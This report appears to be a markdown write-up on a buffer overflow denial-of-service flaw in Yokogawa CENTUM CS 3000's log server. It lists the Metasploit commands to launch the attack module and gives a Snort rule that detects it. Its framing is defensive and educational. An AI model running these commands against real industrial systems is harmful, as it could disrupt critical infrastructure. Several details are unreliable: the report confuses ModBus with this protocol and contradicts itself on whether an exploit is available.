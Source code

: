 # Overview

In this report, we will focus on the SCADA/ICS protocol, which helps maintain efficiency, process data for smarter decisions, and communicate system issues to help reduce downtime.<br>

This Report provides:

* Mitigation details for a vulnerability affecting working status of PLC.
* Disclosure of exploit runs on ModBus protocol.
* Simulating an attack scenario against Scada Honeypot (Conpot)
* Writing IDS rules to detect attack

The module used was written Juan Vazquez (website) on 03.14.2014.

***

# Vulnerability Overview

#### Improper Input Validation

This module abuses a buffer overflow vulnerability to trigger a Denial of Service of the BKCLogSvr component in the Yokogaca CENTUM CS 3000 product.


For this, this module is a kind of Dos attack that sends crafted UDP packets.<br>


#### Vulnerability Details
A vulnerability was found in Yokogawa CENTUM CS 3000 up to R3.07 and classified as very critical. This issue affects an unknown code of the file BKCLogSvr.exe.This module abuses a buffer overflow vulnerability to trigger a Denial of Service of the BKCLogSvr component in the Yokogaca CENTUM CS 3000 product. The vulnerability exists in the handling of malformed log packets, with an unexpected long level field.<br>

 The root cause of the vulnerability is a combination of usage of uninitialized memory from the stack and a dangerous string copy.

##### Butter Overflow ?

Buffer overflow exploits are attacks that alter the flow of the application by overwriting parts of the memory. A buffer overflow is a common software flaw that results in an error. This error condition occurs when more data is written to a memory location than allocated. When memory overflows, neighboring memory regions are overwritten, causing errors or crashes. If not restricted, specially crafted input can cause a buffer overflow, causing many security issues.

When a buffer overflow corrupts the memory, the software crashes and can thus be used as an out-of-service attack.

##### _Explotability_

This vulnerability could be exploited remotely.

##### _Existence of Exploit_

Known public exploits specifically target this vulnerability.


## Impact

Sending two consecutive packets is enough to trigger the overflow and cause DoS. However, if legit packets are processed by the server, there will be no overflow between the two malformed packets. Unfortunately there is no reliable way due to the use of UDP and lack of response.
<br>
The attack may be initiated remotely. No form of authentication is needed for a successful exploitation. Technical details of the vulnerability are known, but there is no available exploit.
<br> <br>
If the attack is successful, it may be recommended to replace the affected object with an alternative product.

***

# Exploitation of Vulnerability
As we mentioned before, with this exploit; attacker can cause a denial of service of the system.

In order to exploit the vulnerability we need to download [Metasploit](https://github.com/rapid7/metasploit-framework)<br>

After downloading metasploit we can run it by typing;

```
# msfconsole
```

We can see the ModBus Frameworks' modules by typing;

```
# show all
```

```
# use /auxiliary/dos/scada/yokogawa_logsvr
```

```
# show options
```
<p align="center">
  <img src="https://github.com/ics-scada/Reports/blob/main/yokogawa_logsvr/img2/show_options.png">
</p>

We have checked what parameters our exploit needs to run. This exploit needs;<br>

`RHOST` = remote host ip address,<br>
```
# set RHOSTS <ip>
```

After giving the parameters which are wanted we are ready to run it.

```
# run
```

<p align="center">
  <img src="https://github.com/ics-scada/Reports/blob/main/yokogawa_logsvr/img2/run_.png">
</p>

As you can see above, dos attack has started.

***

# Packet Analysing
Run wireshark while exploit we’ve use running behind.
You see the blue part. This packet is the packet to the modbus protocol we want to analyze.

***

# Rules
As a result of using this module, an alarm as below was generated by the snort on the target machine.
<br>

```
alert udp $EXTERNAL_NET any -> $HOME_NET 52302 ( 
msg:"PROTOCOL-SCADA Yokogawa CENTUM CS 3000 bkclogserv buffer overflow attempt"; flow:to_server,no_stream;
dsize:1024; 
content:"|00 04 00 00|",depth 4; 
content:"|00 00 00 00 00 00 00 00|",within 8,distance 12; 
content:!"|00|",within 1000; 
detection_filter:track by_dst, count 2, seconds 1; 
metadata:policy balanced-ips drop,policy max-detect-ips drop,policy security-ips drop;
reference:bugtraq,66130;
reference:cve,2014-0781;
classtype:attempted-admin;
sid:30802; rev:4; )
```


